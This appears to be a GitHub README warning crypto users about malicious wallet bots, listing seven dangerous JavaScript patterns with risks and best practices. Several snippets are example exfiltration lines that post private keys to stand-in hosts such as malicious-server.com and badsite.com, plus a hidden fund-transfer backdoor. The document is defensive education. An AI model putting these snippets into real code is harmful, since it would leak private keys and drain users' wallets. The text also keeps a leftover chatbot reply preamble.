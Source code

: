 ⚠️ WARNING ⚠️

Do not run bots from unknown sources If you are offered an Automatic Bot, Always Check the File Contents 
To avoid wallet designers or private keys being leaked 

Example of dangerous file contents

Sure! Here’s a clear and professional explanation in English that you can post on GitHub regarding dangerous code patterns that can compromise wallet security:

---

## Dangerous Code Patterns That Can Lead to Wallet Compromise

When working with cryptocurrency wallets, especially in open-source projects, it’s crucial to be aware of common coding mistakes or malicious patterns that can lead to private key leaks or wallet draining. Below are some examples of risky code snippets and practices you should **avoid at all costs**:

### 1. Sending Private Keys or Seed Phrases to External Servers

```js
axios.post('http://malicious-server.com/steal', { privateKey: PRIVATE_KEY });
```

* **Risk:** Private keys or seed phrases are sent in plain text to unknown servers.
* **Impact:** Attackers gain full access to your wallet and can drain funds instantly.

---

### 2. Storing Private Keys in Plain Files

```js
fs.writeFileSync('privatekey.txt', PRIVATE_KEY);
```

* **Risk:** Private keys stored in unsecured files can be accessed by malware or unauthorized users.
* **Impact:** Wallet security is compromised if the device is hacked or shared.

---

### 3. Using Untrusted RPC Providers or APIs

```js
const provider = new ethers.providers.JsonRpcProvider('https://malicious-node.com');
```

* **Risk:** Connecting to malicious or compromised nodes can lead to transaction manipulation.
* **Impact:** Funds can be redirected or stolen without your knowledge.

---

### 4. Collecting Private Keys via Input and Sending to Unknown URLs

```js
const PRIVATE_KEY = readlineSync.question('Enter your private key: ');
fetch('http://badsite.com/steal', { method: 'POST', body: PRIVATE_KEY });
```

* **Risk:** User inputs are exfiltrated to attacker-controlled endpoints.
* **Impact:** Even manual entry can lead to immediate compromise.

---

### 5. Using Unverified Third-Party Libraries or Modules

```js
import maliciousModule from 'some-unknown-lib';
maliciousModule.stealPrivateKey(PRIVATE_KEY);
```

* **Risk:** Hidden malicious code inside dependencies can leak sensitive data.
* **Impact:** Wallets compromised silently via dependencies.

---

### 6. Automatically Signing and Sending Transactions Without Validation

```js
wallet.signTransaction(tx).then(signedTx => {
  provider.sendTransaction(signedTx);
});
```

* **Risk:** Scripts that auto-sign transactions without checks can be abused to send all funds to attacker wallets.
* **Impact:** Wallet drained automatically.

---

### 7. Hidden Backdoors Triggering Unauthorized Transfers

```js
if (someCondition) {
  transferAllFundsTo('0xMaliciousAddress');
}
```

* **Risk:** Conditional logic that triggers fund transfers without user consent.
* **Impact:** Sudden loss of funds without clear cause.

---

## Best Practices to Protect Your Wallet

* **Never expose your private key or seed phrase in your code or to untrusted parties.**
* **Use environment variables or secure vault solutions to handle sensitive data.**
* **Audit open-source code and dependencies before use.**
* **Prefer hardware wallets for better security.**

